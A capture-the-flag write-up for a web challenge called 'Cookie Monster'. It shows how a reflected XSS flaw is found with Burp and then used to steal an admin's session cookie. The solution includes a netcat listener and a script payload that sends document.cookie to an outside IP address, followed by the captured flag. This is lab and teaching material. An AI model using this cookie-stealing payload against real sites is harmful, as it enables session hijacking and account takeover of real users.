




# Cookie Monster #

**Category:**	Web Security  
**Points:**	200

**Prompt:** 
* Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:46846.

**Hints:** 
* The admin can see the flag on the admin page.
* You can control the value so select all you want.
* If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

**Solution:**
* Use burp to test XSS
* Set up the proxy and change the ingredient variable to:
```
<script>alert("XSS");</script>
```

* It works.  Now lets insert a script to have cookie monster call out to a our listening netcat server:
```
nc -nvlp 80
```
```
<script>document.location='http://220.120.126.234/grab.cgi?'%2bdocument.cookie;</script>
```
* When we run this through burp, it reflects back to our browser and executes the attack against myself.  See my cookies below:
    * 
* However, we have the encoded url: http://challenge.acictf.com:54853/cookie/ed508ac3-73c4-4141-bf20-bec33555aebb
* That sent it.  If we can send this to cookie monster, we can get his cookies.
    * Start Burp intercept, click on "submit for approval by cookie monster", change the value of the parameter to "ed508ac3-73c4-4141-bf20-bec33555aebb" from the previous link, and BAM!
    * 
* Now that we have cookie monster's session cookie, we can change our value to his and log into the admin page for the flag
* 
* ACI{c3222db2048809db07fb62db13b}
